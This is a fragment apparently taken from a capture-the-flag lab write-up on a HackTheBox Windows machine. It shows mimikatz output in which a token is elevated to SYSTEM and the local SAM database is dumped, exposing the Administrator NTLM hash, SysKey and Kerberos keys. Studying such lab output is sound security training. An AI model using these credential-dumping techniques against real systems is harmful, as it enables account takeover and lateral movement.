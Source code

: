 ```powershell
SID name  : NT AUTHORITY\SYSTEM

544     {0;000003e7} 1 D 35298          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;001327d5} 0 D 1314717     HTB\Administrator       S-1-5-21-4266912945-3985045794-2943778634-500  (14g,24p)        Primary  
 * Thread Token  : {0;000003e7} 1 D 1329433     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # lsadump::sam
Domain : DEV
SysKey : e4b2298c95677ce18cd2198b9a36c7df
Local SID : S-1-5-21-4124311166-4116374192-336467615

SAMKey : bb3dbea7ca8bea043c6523bf5d915ae9

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 67bb396c79f56301b7dc5d219cc85d86

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 03fc719a49e2ead4264a2690b650d7f0

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.HTB.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : a0e06c2d823c4ffc2249abfd6af36dc90733a7c395ee81094261caf3d6c2dbd1
      aes128_hmac       (4096) : 6cf34b183d3555966797dcd55e6128ba
      des_cbc_md5       (4096) : 202667ab89080ebf
    OldCredentials
      aes256_hmac       (4096) : 977755e7a9132c495b90fe59cf5471cd1187b9dab491dac0cb6d02bcc5e30740
      aes128_hmac       (4096) : e56a6fc47b432e347ad3d918056626fd
      des_cbc_md5       (4096) : 074aae9e5df751f1
    OlderCredentials
      aes256_hmac       (4096) : 9d211ec8e9afdb2bd168120abc6a97375b3aa14826b6b512236c16cc361cd290
      aes128_hmac       (4096) : 99caad607311ade6c51edf9bf0afdd08
      des_cbc_md5       (4096) : 547afdf27c165e3b

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DEV.HTB.LOCALAdministrator
    Credentials
      des_cbc_md5       : 202667ab89080ebf
    OldCredentials
      des_cbc_md5       : 074aae9e5df751f1


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount

mimikatz(commandline) # exit
Bye!
```